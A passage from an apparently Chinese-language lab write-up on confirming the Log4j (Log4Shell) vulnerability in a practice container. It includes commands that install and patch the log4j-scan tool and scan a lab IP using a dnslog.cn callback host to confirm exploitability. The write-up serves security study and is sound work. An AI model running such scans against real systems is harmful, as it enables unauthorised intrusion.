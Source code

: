 ![log4j2_3](../img/lihan3238_doc/log4j2_3.png)

看到 dnslog.cn 页面有解析记录，说明漏洞可利用。

3. 自动化工具验证 - [**log4j-scan**](https://github.com/fullhunt/log4j-scan)

```bash
# 下载 log4j-scan
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 手动修改代码 log4j-scan.py 在 post_data_parameters 中添加 payload 参数

# 无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 扫描靶场容器
python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello --dns-callback-provider dnslog.cn
```

这里发现报错,想起来靶场容器不允许 POST 请求，改为 GET 请求，同时修改 GET 请求的参数，将键 `v` 改为 `payload`：
